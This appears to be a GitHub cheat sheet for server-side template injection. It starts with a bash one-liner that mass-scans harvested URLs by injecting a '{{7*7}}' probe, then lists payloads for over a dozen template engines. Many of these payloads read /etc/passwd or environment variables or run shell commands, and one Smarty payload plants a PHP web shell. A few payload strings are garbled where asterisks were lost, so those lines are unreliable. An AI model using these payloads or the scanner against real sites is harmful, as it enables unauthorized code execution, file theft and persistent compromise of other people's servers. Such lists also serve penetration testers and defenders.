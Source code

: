 ## Multiple URL Test Payload:


```bash
cat urls.txt | gau -subs | grep '=' | egrep -v '(.js|.png|.svg|.gif|.jpg|.jpeg|.txt|.css|.ico)' | qsreplace "ssti{{ 7*7 }}" | while read url; do cur=$(curl -s "$url" | grep "ssti49"); echo -e "$url -> $cur"; done
```

1. `cat urls.txt`: This command is used to read the contents of the `urls.txt` file, which presumably contains a list of URLs to be tested.
2. `gau -subs`: This part of the command uses the `gau` tool with the `-subs` flag to discover URLs with subdomains.
3. `grep '='`: This command filters out URLs that contain the equal sign `=` symbol. This is used to find URLs that might have query parameters.
4. `egrep -v '(.js|.png|.svg|.gif|.jpg|.jpeg|.txt|.css|.ico)'`: This part filters out URLs that have specific file extensions like JavaScript, images, text, and so on. The idea here is to only test URLs that are likely to be vulnerable.
5. `qsreplace "ssti{{7*7}}"`: This command uses the `qsreplace` tool to replace the query parameter value with the payload `"ssti{{77}}"`. The payload `"ssti{{77}}"` is used to test for SSTI vulnerability by evaluating the expression `7*7` on the server side.
6. `while read url; do cur=$(curl -s $url | grep "ssti49"); echo -e "$url -> $cur"; done`: This part loops through each URL from the filtered list, sends a request using `curl`, and then checks if the response contains `"ssti49"`. If `"ssti49"` is found in the response, it means the payload was successfully injected and evaluated, indicating a potential SSTI vulnerability.

**The OUTPUT shows that the URL "https://vulnerable.com/?s=ssti{{7*7}}" is vulnerable to SSTI, as the payload "ssti49" was successfully injected and evaluated.**

### Additional Payloads:

#### Polyglot:
- `{{$\{\{<['"}}\\}}`: Polyglot payload to test various template engines.

#### Jinja2 (Python):
- `{{ 7*7 }}`: Evaluates `7*7` to `49`.
- `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}`: Exploits Jinja2's code execution capabilities to read `/etc/passwd`.

#### Flask/Jinja2: Identify:
- `{{ '7' 7 }}`: Identifies Flask and Jinja2.
- `{% for c in [1,2,3] %}{{ (c,c,c) }}{% endfor %}`: Prints `c, c, c` for each loop iteration.

#### Tornado (Python):
- `{% import os %}{{ os.popen("ls").read() }}`: Lists files in the current directory.
- `{% import os %}{{ os.system('whoami') }}`: Executes 'whoami' command.

#### Django Template (Python):
- `{% debug %}`: Prints the context and variable values.

#### Handlebars (JavaScript):
- `{{7*7}}`: Evaluates `7*7` to `49`.

#### Express (Node.js):
- `#{7*7}`: Evaluates `7*7` to `49`.

#### EJS (JavaScript):
- `<% require('fs').readFileSync('/etc/passwd', 'utf-8') %>`: Reads `/etc/passwd` file.

#### AngularJS (with ng-bind):
- `<div ng-bind="7*7"></div>`: Evaluates `7*7` to `49`.

#### AngularJS:
- `{{7*7}}`: Evaluates `7*7` to `49`.
- `{{'ssti'+7*7}}`: Injects `'ssti'` followed by the result of `7*7`.

#### Pug (formerly Jade) (JavaScript):
- `p= 7*7`: Evaluates `7*7` to `49`.
- `#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}`: Reads `/etc/passwd` file.

#### EJS (JavaScript):
- `<%= 7*7 %>`: Evaluates `7*7` to `49`.

#### Nunjucks (JavaScript):
- `{{ 7*7 }}`: Evaluates `7*7` to `49`.
- `{{ 'ssti'+7*7 }}`: Injects `'ssti'` followed by the result of `7*7` = `ssti49`.

#### Java:
- `${{7*7}}`: Evaluates `7*7` to `49`.
- `${class.getClassLoader()}`: Gets the class loader.
- `${class.getResource("").getPath()}`: Gets the path of the current resource.
- `${class.getResource("../../../../../index.htm").getContent()}`: Gets the content of `index.htm` resource.
- `${T(java.lang.System).getenv()}`: Gets environment variables.
- `${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes().join(" ")}`: Reads `/etc/passwd` file.

#### Velocity (Java):
- `#set($a=7*7)${a}`: Sets a Velocity variable 'a' to `49` and then outputs it.
- `#set($str = $class.inspect("java.lang.String").type)`: Gets the type of `java.lang.String` class.
- `#set($chr = $class.inspect("java.lang.Character").type)`: Gets the type of `java.lang.Character` class.
- `#set($ex = $class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))`: Executes 'whoami' command.
- `$ex.waitFor()`: Waits for the process to complete.
- `#set($out = $ex.getInputStream())`: Gets the input stream of the process.
- `#foreach($i in [1..$out.available()]) $str.valueOf($chr.toChars($out.read())) #end`: Reads output of process and converts to string.

#### Freemarker (Java):
- `<#assign a=7*7>${a}`: Assigns Freemarker variable 'a' to `49` and then outputs it.
- `#set($a = 7 * 7)${a}`: Sets a variable 'a' to `49` and outputs it.
- `<#assign command="freemarker.template.utility.Execute"?new()>${command("cat /etc/passwd")}`: Exploits Freemarker's code execution capabilities to read `/etc/passwd`.

#### Thymeleaf (Java):
- `[[${7*7}]]`: Evaluates `7*7` to `49`.
- `[[${T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd').getInputStream().toString

()}]]`: Reads `/etc/passwd` file.

#### Smarty (PHP):
- `{$smarty.version}`: Prints the version of Smarty.
- `{$smarty.template_object}`: Prints the current template object.
- `{{7*7}}`: Evaluates `7*7` to `49`.
- `{php}echo "id";{/php}`: Executes 'id' command.
- `{Smarty_Internal_write_File::writeFile($SCRIPT_NAME, "<?php passthru($_GET['cmd']);?>", self::clearConfig())}`: Exploits Smarty's code execution capabilities to execute commands.

#### Slim (PHP):
- `{{ 7*7 }}`: Evaluates `7*7` to `49`.
- `{{ file_get_contents('/etc/passwd') }}`: Reads `/etc/passwd` file.

#### Twig (PHP):
- `{{ constant('STDIN') }}`: Prints the value of `STDIN` constant.
- `{{ 7*7 }}`: Evaluates `7*7` to `49`.
- `{{ dump(app) }}`: Prints the entire Symfony application object.

#### Blade (Laravel):
- `{{ 7*7 }}`: Evaluates `7*7` to `49`.
- `{{ dd(config) }}`: Prints the entire Laravel configuration.

#### ERB (Ruby):
- `<%= 7*7 %>`: Evaluates `7*7` to `49`.
- `<%= system("whoami") %>`: Executes 'whoami' command.

#### ASP.NET Razor (C#):
- `@(7*7)`: Evaluates `7*7` to `49`.
- `@(1+2)`: Evaluates `1+2` to `3`.
- `@{ // C# code }`: C# code block.

#### Mojolicious (Perl):
- `<% perl code %>`: Executes Perl code.

#### Mustache:
- `{{{7*7}}}`: Evaluates `7*7` to `49`.
